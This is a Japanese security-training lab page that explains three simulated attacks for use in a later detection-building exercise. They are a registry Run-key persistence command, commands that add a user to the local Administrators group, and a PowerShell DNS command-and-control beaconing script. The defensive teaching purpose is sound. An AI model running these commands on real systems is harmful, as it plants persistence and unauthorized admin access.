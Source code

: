 ﻿# モジュール 7 - ラボ 1 - 演習 4 - 検出モデリングを理解する

### タスク 1: 攻撃を理解する

**重要: この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃を説明することを目的としています。このページを慎重にお読みください。

攻撃パターンはオープンソースプロジェクトに基づいています：https：//github.com/redcanaryco/atomic-red-team

**注:** 一部の設定は、ラボの目的のためだけに、より短い時間枠でトリガーされます。

#### 攻撃　1　-　レジストリキーの追加による永続性。

この攻撃は、コマンドプロンプトから実行されます。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。  これにより、攻撃者は特権のある別のアカウントでログオンできます。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻撃 3 - ドメイン ネーム サービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール (C2) 通信をシミュレートします。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### タスク 2: 検出モデリングを理解します。

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。  ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

次のラボでは、Defender for Endpoint がインストールされている Windows ホストと Sysmon がインストールされている Windows で同じ攻撃を実行します。  検出を構築すると、それぞれのデータ正規化の違いがわかります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

# 演習 5 に進みます。
